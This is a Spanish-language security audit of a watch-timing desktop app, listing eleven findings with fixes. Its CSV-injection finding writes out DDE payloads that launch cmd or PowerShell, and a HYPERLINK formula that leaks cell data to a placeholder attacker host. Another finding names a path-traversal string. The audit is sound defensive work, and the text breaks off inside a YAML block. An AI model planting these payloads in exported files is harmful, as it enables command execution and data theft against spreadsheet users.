

# Informe de Auditoría y Recomendaciones de Ciberseguridad Aplicativa (AppSec)

**Proyecto:** Advanced Timegrapher (`adv-tg`)
**Versión Auditada:** 0.6.1 (Beta 2 — pure Python / NumPy)
**Ruta del Código Fuente:** `/src` (`src/adv_tg/`)
**Fecha:** 27 de octubre de 2026
**Rol:** Especialista en Ciberseguridad Aplicativa (AppSec & Secure Software Architecture)
**Clasificación:** Documento Técnico de Seguridad / Guía de Remediación

---

## 1. Resumen Ejecutivo

Se ha realizado una auditoría estática y arquitectónica exhaustiva del código fuente de **Advanced Timegrapher** (`adv-tg`) ubicado en el directorio [`/src`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src). Advanced Timegrapher es una aplicación de escritorio horológica de alta precisión construida sobre Python 3.11+, PyQt6, NumPy, PortAudio (`sounddevice`), libsndfile (`soundfile`) y una arquitectura desacoplada de multiprocesamiento (`spawn`) para el análisis acústico y cronocomparación de relojes mecánicos.

El objetivo de esta auditoría es evaluar la postura de seguridad del software frente a vectores de ataque locales, inyección de datos, denegación de servicio (DoS), exposición de información sensible / PII, problemas de interoperabilidad con interfaces nativas C (`ctypes`), y robustez en el empaquetado y dependencias.

### 1.1 Estado General y Comparativa de Evolución
En revisiones tempranas del proyecto (versión 0.4.0), se identificaron problemas severos como la búsqueda no restringida de librerías nativas (`DLL Hijacking` en `audio_io.py`) y llamadas a codificadores CLI sin límite de tiempo (`subprocess.run` sin `timeout`). En la versión actual **0.6.1 (Beta 2)**, dichos riesgos han sido mitigados mediante la centralización del subsistema de I/O en [`src/adv_tg/utils/audio_files.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py) y la migración a un motor DSP 100% Python/NumPy sin extensiones C++ inseguras ni dependencias pesadas de SciPy.

No obstante, la auditoría actual revela **11 áreas de mejora y brechas de seguridad** que deben remediarse para blindar la aplicación frente a archivos de entrada maliciosos, entornos multiusuario compartidos y filtración de datos en reportes públicos.

### 1.2 Resumen Cuantitativo de Hallazgos

| Severidad | Cantidad | Descripción General |
| :--- | :---: | :--- |
| 🟠 **Media-Alta (Medium-High)** | **2** | Inyección de Fórmulas en exportaciones CSV (CWE-1236) y Exposición de PII/Rutas en reportes de fallos (CWE-200 / CWE-532). |
| 🟡 **Media (Medium)** | **3** | DoS por consumo de memoria desmedido en decodificación de audio (CWE-400), riesgo de deserialización `pickle` en IPC (CWE-502) y permisos por defecto inseguros en directorios de configuración y logs (CWE-732). |
| 🔵 **Baja (Low)** | **4** | Signatura ctypes incompleta en `adjtimex` (CWE-119/686), falta de validación de límites en base de datos de calibres (CWE-20), inyección HTML en etiquetas Qt RichText (CWE-79/116) y falta de saneamiento en nombres de archivo de prueba (CWE-22). |
| ⚪ **Informativa (Info)** | **2** | Ausencia de límite en conteo de bloques de metadatos Vorbis/FLAC (CWE-400) y dependencias sin acotación estricta ni escaneo continuo (CWE-1104). |
| **Total** | **11** | **Hallazgos documentados con instrucciones de resolución.** |

---

## 2. Alcance y Metodología

### 2.1 Componentes Auditados en `/src`

1. **Gestión de Audio e Ingesta:** [`src/adv_tg/audio/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio) (`capture.py`, `capture_process.py`, `process_capture.py`, `analysis_process.py`, `file_replay.py`, `ring_buffer.py`).
2. **DSP Horológico y Modelos de Reloj:** [`src/adv_tg/core/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/core) (`beat_detector.py`, `metrics.py`, `sample_stream.py`, `adc_clock.py`, `session.py`).
3. **Motor Matemático Vectorizado:** [`src/adv_tg/dsp/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/dsp) (`engine.py`, `filters.py`).
4. **Interfaz Gráfica de Usuario (PyQt6):** [`src/adv_tg/ui/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui) (`main_window.py`, `dialogs.py`, `measure_worker.py`, `capture_worker.py`).
5. **Entrada/Salida y Utilidades del Sistema:** [`src/adv_tg/utils/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils) (`audio_files.py`, `audio_io.py`, `adc_calibration.py`, `report.py`, `logger_setup.py`, `debugger.py`, `watch_db.py`).
6. **Herramientas de Línea de Comandos (CLI):** [`src/adv_tg/tools/`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/tools) (`measure.py`, `detect_beats.py`, `capture_check.py`, `adc_calibration.py`, `gil_probe.py`).
7. **Punto de Entrada y Arranque:** [`src/adv_tg/main.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/main.py).

### 2.2 Metodología de Análisis
La auditoría se realizó conforme a los siguientes estándares reconocidos de seguridad aplicativa:
- **OWASP ASVS (Application Security Verification Standard) v4.0**, adaptado a software cliente de escritorio.
- **CWE/SANS Top 25 Most Dangerous Software Weaknesses**.
- **Análisis de Flujo de Datos (Taint Analysis):** Rastreando entradas no confiables (archivos de audio externos, parámetros de línea de comandos, entradas de texto en widgets GUI y variables de entorno) hacia sinks o destinos sensibles (sistema de archivos, interfaces C-FFI, comandos IPC y generación de archivos CSV/ZIP).

---

## 3. Catálogo Detallado de Hallazgos e Instrucciones de Resolución

---

### [SEC-01] Inyección de Fórmulas en Exportaciones CSV (CSV / Formula Injection)

* **Clasificación:** CWE-1236 (*Improper Neutralization of Formula Elements in a CSV File*)
* **Severidad:** 🟠 **Media-Alta (Medium-High)** — CVSS v3.1: **6.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`)
* **Ubicación:**
  - [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1858-L1954) (método `save_results_csv`)
  - [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1956-L2030) (método `export_test_results`)
  - [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L2188-L2240) (método `export_traces`)
  - [`src/adv_tg/tools/measure.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/tools/measure.py#L320-L360) (función `write_csv`)

#### Descripción Técnica
En la interfaz gráfica, el usuario puede ingresar libremente el nombre del ensayo (`test_name`) a través de un campo `QLineEdit` (`self.txt_test_name`). Asimismo, el nombre del calibre (`caliber`) y la posición del reloj (`position`) se combinan en diccionarios y listas que se escriben directamente a archivos `.csv` mediante `csv.DictWriter` o `csv.writer` sin validar ni sanitizar el primer carácter de las celdas de texto.

```python
# src/adv_tg/ui/main_window.py (líneas 1860, 1913-1914)
test_name = self.txt_test_name.text().strip() or "watch_test"
...
writer.writerow({
    "test_name": test_name,
    "caliber": caliber,
    ...
})
```

#### Vector de Ataque e Impacto
Si un usuario ingresa en `txt_test_name` o se carga un calibre con prefijos ejecutables:
- `=cmd|'/C calc'!A0`
- `@SUM(1+1)*cmd|'/C powershell -c ...'!A0`
- `+cmd|'/C ...'!A0`
- `-2+3+cmd|'/C ...'!A0`
- `=HYPERLINK("https://attacker.com/leak?d=" & A2, "Ver Resultados")`

Al abrir el archivo `.csv` exportado en Microsoft Excel, LibreOffice Calc o Google Sheets, el software de hoja de cálculo interpretará la celda como una fórmula dinámica (*Dynamic Data Exchange - DDE*), ejecutando comandos locales con los privilegios del usuario o exfiltrando los datos de telemetría a través de peticiones HTTP.

#### Instrucciones de Resolución
Crear una función utilitaria `sanitize_csv_cell` en [`src/adv_tg/utils/audio_files.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py) (o un módulo de utilidades generales) y aplicarla a todos los campos de texto exportados a CSV:

```python
# Código de remediación propuesto (implementar en src/adv_tg/utils/security.py o utils/report.py):
from typing import Any

def sanitize_csv_cell(value: Any) -> Any:
    """Previene CSV Formula Injection (CWE-1236) anteponiendo comilla simple a caracteres de fórmula."""
    if isinstance(value, str):
        if value and value[0] in ("=", "+", "-", "@", "\t", "\r"):
            return f"'{value}"
    return value
```

Y en [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py):
```python
# Aplicar antes de writer.writerow:
sanitized_row = {k: sanitize_csv_cell(v) for k, v in row.items()}
writer.writerow(sanitized_row)
```

---

### [SEC-02] Exposición de PII y Rutas Locales en Paquete de Reportes de Fallos (Information Exposure)

* **Clasificación:** CWE-200 (*Information Exposure*) / CWE-532 (*Insertion of Sensitive Information into Log File*)
* **Severidad:** 🟠 **Media-Alta (Medium-High)** — CVSS v3.1: **6.5** (`AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N`)
* **Ubicación:**
  - [`src/adv_tg/utils/report.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/report.py#L73-L167) (`build_report`)
  - [`src/adv_tg/ui/dialogs.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/dialogs.py#L385-L427) (`ReportDialog.create`)

#### Descripción Técnica
La utilidad `build_report` empaqueta en un archivo `.zip` el archivo `report.txt`, la base de datos de calibración `adc_calibration.json`, la última grabación de audio `recording.flac` y **todos los archivos de log** del directorio de registros (`adv_tg*.log`, `faulthandler.log`, etc.) hasta un total de 30 MB.
El diálogo final invita al usuario a abrir GitHub Issues (`ISSUES_URL`) y adjuntar directamente el `.zip`.

```python
# src/adv_tg/utils/report.py (líneas 118-132)
lines = [
    f"Advanced Timegrapher {__version__}",
    f"Created: {datetime.now().astimezone():%Y-%m-%d %H:%M:%S %z}",
    f"System: {platform.platform()} ({sys.platform}, {platform.machine()})",
    f"Python: {platform.python_version()} ({'frozen' if getattr(sys, 'frozen', False) else 'source'})",
]
...
lines += ["== Audio devices ==", audio_devices_text(), ""]
```

#### Vector de Ataque e Impacto
Los archivos de log y `report.txt` contienen:
1. El nombre de usuario del sistema operativo y rutas completas del sistema de archivos (`/Users/<username>/...`, `C:\Users\<username>\...`).
2. Nombres exactos de hardware de audio conectados, que pueden revelar números de serie USB, identificadores Bluetooth o tarjetas de sonido corporativas.
3. Volcados de memoria de caídas nativas (`faulthandler.log`).

Al publicarse en un repositorio de GitHub público, se expone información de identificación personal (PII) e información de reconocimiento de infraestructura local útil para ingeniería social o ataques dirigidos.

#### Instrucciones de Resolución
1. Implementar un filtro de anonimización en [`src/adv_tg/utils/report.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/report.py) que reemplace el nombre del usuario y la ruta del directorio home (`Path.home()`) por comodines como `~` o `<USER>` tanto en `report.txt` como en el contenido de los logs antes de incorporarlos al ZIP:

```python
def anonymize_text(text: str) -> str:
    """Enmascara nombres de usuario y rutas personales en logs y reportes."""
    import getpass
    home = str(Path.home())
    username = getpass.getuser()
    text = text.replace(home, "~")
    if username:
        text = text.replace(username, "<USER>")
    return text
```
2. Aplicar `anonymize_text` sobre las líneas de `report.txt` y al volcar cada archivo `.log` al archivo ZIP en `build_report`.

---

### [SEC-03] Denegación de Servicio (DoS) por Asignación de Memoria No Acotada en Decodificación de Audio

* **Clasificación:** CWE-400 (*Uncontrolled Resource Consumption*) / CWE-770 (*Allocation of Resources Without Limits*)
* **Severidad:** 🟡 **Media (Medium)** — CVSS v3.1: **5.5** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H`)
* **Ubicación:** [`src/adv_tg/utils/audio_files.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py#L311-L350) (función `read_audio`)

#### Descripción Técnica
La función `read_audio(path)` decodifica archivos de audio completos en memoria:

```python
# src/adv_tg/utils/audio_files.py (líneas 327-328, 340)
with sf.SoundFile(str(p)) as f:
    data = f.read(dtype="float64", always_2d=False)
...
samples = np.ascontiguousarray(data, dtype=np.float64)
```

Cada muestra se convierte a `float64` (8 bytes por muestra). Si un archivo WAV o FLAC declara una duración de varias horas o una tasa de muestreo ultra-alta (p. ej., 192 kHz multicanal):
`192,000 muestras/s * 2 canales * 8 bytes = ~3 MB por segundo de audio`. Una grabación de 1 hora requeriría más de 10 GB de memoria RAM contigua.

#### Vector de Ataque e Impacto
- Un atacante puede crear un archivo *"Audio Bomb"* con una cabecera que declare un número masivo de muestras.
- Al abrir el archivo o al procesarlo en herramientas de análisis, el proceso consumirá toda la memoria disponible, activando el OOM Killer del sistema operativo, forzando swap thrashing o provocando un `MemoryError` que bloquea la GUI.

#### Instrucciones de Resolución
1. En [`src/adv_tg/utils/audio_files.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py), definir una constante de seguridad para lecturas completas en memoria:

```python
#: Límite máximo de muestras para decodificación completa en memoria (ej. 30 minutos a 48 kHz mono ~ 690 MB float64).
MAX_IN_MEMORY_FRAMES: int = 48000 * 1800

def read_audio(path: Path | str, max_frames: int = MAX_IN_MEMORY_FRAMES) -> AudioData:
    p = Path(path)
    info = audio_info(p)
    if info.frames > max_frames:
        raise AudioFileError(
            f"El archivo '{p.name}' excede el límite de memoria para carga completa "
            f"({info.frames} frames > {max_frames}). Use 'iter_audio_blocks' para procesarlo por bloques."
        )
    ...
```

---

### [SEC-04] Signatura C-FFI / ctypes Incompleta en `linux_ntp_synchronized` (Truncamiento de Punteros en 64-bit)

* **Clasificación:** CWE-119 (*Improper Restriction of Operations within the Bounds of a Memory Buffer*) / CWE-686 (*Function Call With Incorrect Argument Type*)
* **Severidad:** 🔵 **Baja-Media (Low-Medium)** — CVSS v3.1: **4.4** (`AV:L/AC:M/PR:N/UI:N/S:U/C:N/I:L/A:L`)
* **Ubicación:** [`src/adv_tg/core/adc_clock.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/core/adc_clock.py#L240-L256)

#### Descripción Técnica
En el módulo `adc_clock.py`, la función `linux_ntp_synchronized()` invoca directamente la llamada al sistema Linux `adjtimex` a través de `ctypes.CDLL(None)`:

```python
# src/adv_tg/core/adc_clock.py (líneas 249-251)
libc = ctypes.CDLL(None, use_errno=True)
buf = ctypes.create_string_buffer(512)  # struct timex, modes = 0 (read only)
state = libc.adjtimex(buf)
```

No se configuran explícitamente `libc.adjtimex.argtypes` ni `libc.adjtimex.restype`.

#### Vector de Ataque e Impacto
Por especificación de `ctypes`, si no se declara `argtypes`, Python asume que los argumentos son enteros de 32 bits (`c_int`). En arquitecturas de 64 bits (x86_64, aarch64), pasar un puntero de 64 bits a una función C sin tipar formalmente puede truncar la dirección de memoria superior en ciertos compiladores o configuraciones de ABI, corrompiendo la pila o provocando un fallo de segmentación (*Segmentation Fault*).

#### Instrucciones de Resolución
En [`src/adv_tg/core/adc_clock.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/core/adc_clock.py#L248-L253), declarar formalmente los tipos de argumentos y retorno:

```python
    try:
        libc = ctypes.CDLL(None, use_errno=True)
        libc.adjtimex.argtypes = [ctypes.c_void_p]
        libc.adjtimex.restype = ctypes.c_int
        buf = ctypes.create_string_buffer(512)
        state = libc.adjtimex(buf)
    except (OSError, AttributeError):
        return None
```

---

### [SEC-05] Validación Insuficiente de Entradas Numéricas en Base de Datos de Calibres (ZeroDivisionError / DoS)

* **Clasificación:** CWE-20 (*Improper Input Validation*) / CWE-369 (*Divide By Zero*)
* **Severidad:** 🔵 **Baja (Low)** — CVSS v3.1: **4.0** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:L`)
* **Ubicación:** [`src/adv_tg/utils/watch_db.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/watch_db.py#L66-L80)

#### Descripción Técnica
La función `load_watch_db` analiza las filas del archivo `watch_db.csv`:

```python
# src/adv_tg/utils/watch_db.py (líneas 68-70)
lift_angle = float(row[1].strip())
bph = int(float(row[2].strip()))
presets[name] = (bph, lift_angle)
```

No se valida que `bph` sea estrictamente positivo ni que `lift_angle` esté dentro de un rango físico real.

#### Vector de Ataque e Impacto
En los cálculos horológicos posteriores (como [`src/adv_tg/main.py#L191`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/main.py#L191) o en el motor de métricas), el período nominal se calcula como:
`period_s = 3600.0 / bph`.
Si una entrada contiene `bph = 0` o un valor negativo:
1. Se produce una excepción no controlada `ZeroDivisionError` en el hilo de análisis.
2. Si `lift_angle <= 0` o `>= 180`, las funciones trigonométricas de cálculo de amplitud divergen y generan cascadas de valores `NaN`.

#### Instrucciones de Resolución
Añadir validación estricta de rangos en [`src/adv_tg/utils/watch_db.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/watch_db.py):

```python
                try:
                    lift_angle = float(row[1].strip())
                    bph = int(float(row[2].strip()))
                    if not (1000 <= bph <= 120000):
                        raise ValueError(f"bph fuera de rango horológico válido [1000, 120000]: {bph}")
                    if not (10.0 <= lift_angle <= 90.0):
                        raise ValueError(f"ángulo de alzamiento fuera de rango [10, 90]: {lift_angle}")
                except ValueError as exc:
                    logger.warning("Fila inválida en línea %d (%s): %s", line_num, row, exc)
                    continue
```

---

### [SEC-06] Permisos por Defecto Inseguros en Creación de Directorios de Logs y Configuración

* **Clasificación:** CWE-732 (*Incorrect Permission Assignment for Critical Resource*) / CWE-276 (*Incorrect Default Permissions*)
* **Severidad:** 🟡 **Media (Medium)** — CVSS v3.1: **5.3** (`AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L`)
* **Ubicación:**
  - [`src/adv_tg/utils/logger_setup.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/logger_setup.py#L102) (`LoggerSetup.LOG_DIR.mkdir(parents=True, exist_ok=True)`)
  - [`src/adv_tg/main.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/main.py#L45) (`LoggerSetup.LOG_DIR.mkdir(...)`)
  - [`src/adv_tg/utils/adc_calibration.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/adc_calibration.py#L228) (`self.path.parent.mkdir(...)`)

#### Descripción Técnica
Las invocaciones a `mkdir(parents=True, exist_ok=True)` no especifican el argumento `mode`. En sistemas operativos basados en POSIX (Linux, macOS), la creación se realiza con los permisos predeterminados de la máscara de usuario (`umask`, típicamente `022`), lo que genera directorios con permisos `0755` (`rwxr-xr-x`).

#### Vector de Ataque e Impacto
En sistemas multiusuario o estaciones de trabajo compartidas, cualquier otro usuario local no privilegiado puede listar y leer el contenido de `~/.local/state/adv_tg/logs` o `~/Library/Logs/adv_tg`, teniendo acceso a nombres de archivos procesados, modelos de audio y volcados de fallos de la aplicación.

#### Instrucciones de Resolución
Establecer permisos restrictivos (`0o700` — lectura, escritura y ejecución únicamente para el propietario) al crear los directorios de usuario en sistemas POSIX:

```python
# En src/adv_tg/utils/logger_setup.py y adc_calibration.py:
LoggerSetup.LOG_DIR.mkdir(parents=True, exist_ok=True, mode=0o700)
# Para asegurar permisos incluso si el directorio ya existía con umask permisiva:
if sys.platform != "win32" and LoggerSetup.LOG_DIR.is_dir():
    try:
        LoggerSetup.LOG_DIR.chmod(0o700)
    except OSError:
        pass
```

---

### [SEC-07] Inyección HTML en Etiquetas RichText de Diálogos Qt (HTML Injection)

* **Clasificación:** CWE-79 (*Improper Neutralization of Input During Web Page Generation / Cross-Site Scripting*) / CWE-116 (*Improper Encoding or Escaping of Output*)
* **Severidad:** 🔵 **Baja (Low)** — CVSS v3.1: **3.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N`)
* **Ubicación:** [`src/adv_tg/ui/dialogs.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/dialogs.py#L300-L315) (`AboutDialog`)

#### Descripción Técnica
En el diálogo *Acerca de* (`AboutDialog`), se formatea el cuerpo del texto con variables del sistema operativo y rutas del usuario (`config_dir()`, `LoggerSetup.LOG_DIR`):

```python
# src/adv_tg/ui/dialogs.py (líneas 300-312)
body.setText(
    tr("about_body").format(
        repo=REPO_URL,
        license="GPL-3.0-or-later",
        python=platform.python_version(),
        qt=QT_VERSION_STR,
        pyqt=PYQT_VERSION_STR,
        system=f"{platform.system()} {platform.release()} ({sys.platform})",
        config=config_dir(),
        logs=LoggerSetup.LOG_DIR,
    )
)
body.setTextFormat(Qt.TextFormat.RichText)
body.setOpenExternalLinks(True)
```

#### Vector de Ataque e Impacto
Si la ruta del directorio de usuario contiene caracteres especiales HTML (como `&`, `<`, `>`, `"`) debido a nombres de carpeta personalizados o inyección en variables de entorno como `$ADV_TG_LOG_DIR`, el analizador de RichText de Qt interpretará estos caracteres como etiquetas HTML, permitiendo alterar el diseño visual, inyectar enlaces engañosos (`<a href="malicious-url">`) o romper el formato de la ventana.

#### Instrucciones de Resolución
Importar `html` de la biblioteca estándar y escapar todas las variables dinámicas antes de insertarlas en la plantilla RichText:

```python
import html

# En src/adv_tg/ui/dialogs.py:
body.setText(
    tr("about_body").format(
        repo=REPO_URL,
        license="GPL-3.0-or-later",
        python=html.escape(platform.python_version()),
        qt=html.escape(QT_VERSION_STR),
        pyqt=html.escape(PYQT_VERSION_STR),
        system=html.escape(f"{platform.system()} {platform.release()} ({sys.platform})"),
        config=html.escape(str(config_dir())),
        logs=html.escape(str(LoggerSetup.LOG_DIR)),
    )
)
```

---

### [SEC-08] Deserialización con `pickle` en Tuberías Multiprocessing IPC (CWE-502)

* **Clasificación:** CWE-502 (*Deserialization of Untrusted Data*)
* **Severidad:** 🟡 **Media-Baja (Low-Medium)** — CVSS v3.1: **4.7** (`AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N`)
* **Ubicación:**
  - [`src/adv_tg/audio/process_capture.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio/process_capture.py#L320-L370) (`evt_conn.recv()`)
  - [`src/adv_tg/audio/analysis_process.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/audio/analysis_process.py#L74-L82) (`inbox.put(conn.recv())`)

#### Descripción Técnica
Para comunicar el proceso principal con los subprocesos aislados de captura y análisis, se utilizan objetos `multiprocessing.Pipe`.
Mientras que el flujo masivo de muestras de audio utiliza arrays binarios con `send_bytes()` / `recv_bytes()`, los eventos de control y las instancias de telemetría (`SessionSnapshot`) se transmiten mediante `conn.send()` y `conn.recv()`, los cuales emplean internamente serialización con `pickle`.

#### Vector de Ataque e Impacto
Aunque los extremos de las tuberías anónimas son privados entre el proceso padre y el hijo bajo el contexto `spawn`, en caso de que un atacante local logre inyectar datos en el descriptor de la tubería o manipular la memoria del proceso, la deserialización de un stream de `pickle` arbitrario permitiría la ejecución remota de código (*RCE*) invocando constructores de clases arbitrarias (`__reduce__`).

#### Instrucciones de Resolución
Como medida de endurecimiento en profundidad (*defense-in-depth*):
1. Para eventos de texto y configuraciones simples en `evt_conn` y `ctrl_conn`, serializar utilizando `json` o un formato seguro con `send_bytes` / `recv_bytes`.
2. Para transferencias de telemetría complejas (`SessionSnapshot`), serializar las métricas como tuplas primitivas o diccionarios planos validados, eliminando la serialización de clases complejas con `pickle`.

---

### [SEC-09] Falta de Sanitización en Nombre de Prueba (`test_name`) para Rutas de Archivo (Path Traversal)

* **Clasificación:** CWE-22 (*Improper Limitation of a Pathname to a Restricted Directory*) / CWE-73 (*External Control of File Name or Path*)
* **Severidad:** 🔵 **Baja (Low)** — CVSS v3.1: **3.8** (`AV:L/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N`)
* **Ubicación:** [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py#L1860-L1866, #L1958-L1964, #L2190-L2196, #L2393-L2400)

#### Descripción Técnica
En múltiples funciones de exportación de la ventana principal:
```python
test_name = self.txt_test_name.text().strip() or "watch_test"
default_name = f"{test_name}_results.csv"
chosen, _ = QFileDialog.getSaveFileName(self, ..., default_name, ...)
```
Si se invoca la función programáticamente o si el usuario introduce nombres con secuencias de salto de directorio (`../../etc/passwd` o nombres con caracteres prohibidos en sistemas Windows como `CON`, `PRN`, `AUX`, `*`, `?`), el nombre de archivo propuesto puede causar comportamientos inesperados o guardar archivos en directorios superiores fuera de la ubicación prevista.

#### Instrucciones de Resolución
Filtrar y normalizar el nombre base en [`src/adv_tg/ui/main_window.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/ui/main_window.py):

```python
def safe_filename_base(name: str, fallback: str = "watch_test") -> str:
    """Elimina caracteres de control y separadores de ruta de un nombre sugerido."""
    safe = "".join(c for c in name if c.isalnum() or c in ("-", "_", " ")).strip()
    return safe or fallback
```

---

### [SEC-10] Dependencias de la Cadena de Suministro y Paquetes Obsoletos

* **Clasificación:** CWE-1104 (*Use of Unmaintained Third Party Components*) / CWE-1395
* **Severidad:** ⚪ **Informativa (Informational)**
* **Ubicación:** [`pyproject.toml`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/pyproject.toml#L15-L25)

#### Descripción Técnica
1. **`PyOpenGL_accelerate`:** En `pyproject.toml` se declara `PyOpenGL_accelerate` como dependencia directa. Dicho paquete no cuenta con mantenimiento activo reciente, suele generar fallos de compilación en Python 3.12+ en varias distribuciones y la aceleración OpenGL fue desactivada por defecto en la GUI debido a artefactos de renderizado.
2. **Dependencias sin acotación superior:** Las dependencias (`numpy>=1.26`, `PyQt6>=6.6`, etc.) no tienen límite superior, lo cual puede introducir versiones rotas o paquetes comprometidos aguas arriba de forma inadvertida.

#### Instrucciones de Resolución
1. Eliminar `PyOpenGL_accelerate` de las dependencias obligatorias de `pyproject.toml` (manteniendo `PyOpenGL` si es necesario, o moviéndolo a dependencias opcionales).
2. Incorporar un job de escaneo de dependencias en el flujo de CI (`.github/workflows/ci.yml`) utilizando `pip-audit`.

---

### [SEC-11] Ausencia de Límite Superior en Conteo de Metadatos Vorbis/FLAC

* **Clasificación:** CWE-400 (*Uncontrolled Resource Consumption*)
* **Severidad:** ⚪ **Informativa (Informational)**
* **Ubicación:** [`src/adv_tg/utils/audio_files.py`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/src/adv_tg/utils/audio_files.py#L155-L171) (`_parse_vorbis`)

#### Descripción Técnica
En la función `_parse_vorbis(body)`:
```python
count, i = u32(i), i + 4
comments = []
for _ in range(count):
    n, i = u32(i), i + 4
    ...
    comments.append(...)
```
Si un archivo FLAC malformado o manipulado especifica un `count` enorme (por ejemplo, `count = 10_000_000`), el bucle iterará innecesariamente consumiendo ciclos de CPU antes de detectar el fin del buffer.

#### Instrucciones de Resolución
Verificar que `count` sea proporcional al tamaño del bloque restante:

```python
# En _parse_vorbis:
if count > (len(body) - i) // 4:
    raise ValueError("El conteo de comentarios Vorbis excede la capacidad del bloque")
```

---

## 4. Matriz de Priorización y Plan de Remediación

A continuación se presenta la hoja de ruta de implementación dividida por criticidad:



### Tabla de Seguimiento

| ID | Vulnerabilidad | Severidad | Esfuerzo Estimado | Prioridad Sugerida |
| :--- | :--- | :---: | :---: | :---: |
| **SEC-01** | Inyección de Fórmulas en CSV (CWE-1236) | 🟠 Media-Alta | ~1 hora | **P0 (Inmediato)** |
| **SEC-02** | Exposición de PII/Rutas en reportes (CWE-200) | 🟠 Media-Alta | ~1 hora | **P0 (Inmediato)** |
| **SEC-03** | DoS por asignación de memoria ilimitada (CWE-400) | 🟡 Media | ~1 hora | **P1 (Próximo Sprint)** |
| **SEC-04** | Truncamiento de punteros ctypes en 64-bit | 🔵 Baja-Media | ~30 min | **P1 (Próximo Sprint)** |
| **SEC-05** | Entradas no validadas en calibres (ZeroDivision) | 🔵 Baja | ~30 min | **P1 (Próximo Sprint)** |
| **SEC-06** | Permisos permisivos en directorios locales | 🟡 Media | ~30 min | **P1 (Próximo Sprint)** |
| **SEC-07** | Inyección HTML en etiquetas Qt RichText | 🔵 Baja | ~30 min | **P2 (Mediano Plazo)** |
| **SEC-08** | Deserialización con `pickle` en IPC | 🟡 Media-Baja | ~2-3 horas | **P2 (Mediano Plazo)** |
| **SEC-09** | Path traversal potencial en nombres de exportación | 🔵 Baja | ~30 min | **P2 (Mediano Plazo)** |
| **SEC-10** | Dependencias obsoletas (`PyOpenGL_accelerate`) | ⚪ Info | ~30 min | **P3 (Mantenimiento)** |
| **SEC-11** | Límite de conteo de comentarios en FLAC | ⚪ Info | ~15 min | **P3 (Mantenimiento)** |

---

## 5. Hardening de CI/CD y Prácticas de Desarrollo Seguro

1. **Incorporar Análisis Estático SAST Automatizado:**
   Añadir en el pipeline de GitHub Actions ([`.github/workflows/ci.yml`](file:///Users/sqpr14/Desarrollo/advanced_timegrapher/.github/workflows/ci.yml)) un paso de análisis con `bandit` para alertar automáticamente sobre patrones de código inseguros en Python:
   ```yaml
   - name: Security SAST Scan (Bandit)
     run: |
       pip install bandit
       bandit -r src/ -ll -ii
   ```

2. **Auditoría Continua de Vulnerabilidades en Dependencias:**
   Ejecutar `pip-audit` en CI para verificar que librerías críticas como `PyQt6`, `sounddevice`, `soundfile` o `numpy` no contengan vulnerabilidades conocidas registradas en la base de datos de PyPI/OSV:
   ```yaml
